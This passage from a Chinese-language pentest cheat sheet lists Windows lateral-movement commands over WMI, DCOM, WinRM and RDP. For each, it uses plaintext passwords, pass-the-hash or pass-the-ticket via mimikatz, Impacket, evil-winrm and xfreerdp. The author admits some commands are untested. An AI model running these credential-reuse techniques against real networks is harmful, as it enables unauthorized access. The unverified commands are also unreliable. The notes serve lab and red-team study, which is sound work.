- 方式一（原生 `wmic` 没有哈希参数，必须先派生会话）：

```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm-hash> /run:cmd.exe
```

```
wmic /node:<target_ip> process call create "cmd.exe /c whoami > C:\Windows\Temp\lab-wmi.txt"
whoami
hostname
```

- 方式二（常用）：

```
impacket-wmiexec -hashes :<ntlm-hash> <domain>/<user>@<target_ip> "whoami && hostname"
```

##### 3. 凭据：Kerberos 票据

- 工具：mimikatz、Impacket（`getST` + `wmiexec`）
- 方式一：

```
mimikatz # kerberos::ptt <kirbi_file>
```

```
wmic /node:<target_ip> process call create "cmd.exe /c whoami > C:\Windows\Temp\lab-wmi.txt"
whoami
```

- 方式二：

```
impacket-getST -spn cifs/<target_ip> -k -no-pass <domain>/<user>
export KRB5CCNAME=<ccache_file>
impacket-wmiexec -k -no-pass <target_ip> "whoami && hostname"
```

------

#### (5) DCOM

> DCOM 依赖"当前登录会话的身份"

##### 1. 凭据：明文密码

- 工具：Impacket（原生 PowerShell 不便直接传密码）
- 指令：

```
impacket-dcomexec <domain>/<user>:<password>@<target_ip> "whoami && hostname"
```

##### 2. 凭据：NTLM 哈希

- 工具：mimikatz、Impacket
- 方式一：

```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm-hash> /run:powershell.exe
```

新 PowerShell 里：

powershell

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","<target_ip>"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c whoami > C:\Windows\Temp\lab-dcom.txt && hostname >> C:\Windows\Temp\lab-dcom.txt","7")
```

- 方式二：

```
impacket-dcomexec -hashes :<ntlm-hash> <domain>/<user>@<target_ip> "whoami && hostname"
```

##### 3. 凭据：Kerberos 票据

- 工具：mimikatz、Impacket
- 方式一：

```
mimikatz # kerberos::ptt <kirbi_file>
```

powershell

```
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","<target_ip>"))
$com.Document.ActiveView.ExecuteShellCommand("cmd.exe",$null,"/c whoami > C:\Windows\Temp\lab-dcom.txt","7")
```

- 方式二：

```
export KRB5CCNAME=<ccache_file>
impacket-dcomexec -k -no-pass <target_ip> "whoami && hostname"
```

------

#### (6) WinRM

##### 1. 凭据：明文密码

- 工具：PowerShell 原生、evil-winrm
- 指令：

powershell

```
Enter-PSSession -ComputerName <target_ip> -Credential (Get-Credential)

whoami
hostname
exit
```

powershell

```
Invoke-Command -ComputerName <target_ip> -Credential (Get-Credential) -ScriptBlock { whoami; hostname }
```

```
evil-winrm -i <target_ip> -u <user> -p '<password>' -d <domain>
```

##### 2. 凭据：NTLM 哈希

- 工具：evil-winrm
- 指令：

```
evil-winrm -i <target_ip> -u <user> -H <ntlm-hash>
```

##### 3. 凭据：Kerberos 票据

- 工具：mimikatz + 原生 PowerShell（域内最典型）
- 指令：

```
mimikatz # kerberos::ptt <kirbi_file>
```

powershell

```
Enter-PSSession -ComputerName <target_ip>
whoami
hostname
exit
```

Linux 侧：

```
kinit <user>
export KRB5CCNAME=<ccache_file>
# 使用支持 Kerberos 的客户端连接 <target_ip> 的 5985/5986
```

------

#### (7) RDP

##### 1. 凭据：明文密码

- 工具：`mstsc`、xfreerdp
- 指令：

```
mstsc /v:<target_ip> /prompt
```

```
xfreerdp /v:<target_ip> /u:'<domain>\<user>' /p:'<password>' /cert:ignore
```

进入会话后：

```
whoami
hostname
```

##### 2. 凭据：NTLM 哈希

- 工具：mimikatz + `mstsc`、xfreerdp
- 前提：目标注册表

```
HKLM\System\CurrentControlSet\Control\Lsa
  DisableRestrictedAdmin = 0   
```

- 指令：

```
mimikatz # sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlm-hash> /run:"mstsc.exe /restrictedAdmin /v:<target_ip>"
```

```
xfreerdp /v:<target_ip> /u:'<domain>\<user>' /pth:<ntlm-hash> /cert:ignore
```

##### 3. 凭据：Kerberos 票据

- 工具：mimikatz / kinit + xfreerdp

    需要 Restricted Admin 配合；否则 RDP 会要求交互式密码

- 指令：

```
kinit <user>
xfreerdp /v:<target_ip> /k /cert:ignore
```

看本机保存的 RDP 凭据：

```
cmdkey /list
```


**部分指令因为目前打的靶场较少，没有经过实际验证，可能会存在一些问题**

来源文章：

https://hacktricks.wiki/

https://yuy0ung.github.io/

https://github.com/peass-ng/PEASS-ng/

https://jlajara.gitlab.io/Potatoes_Windows_Privesc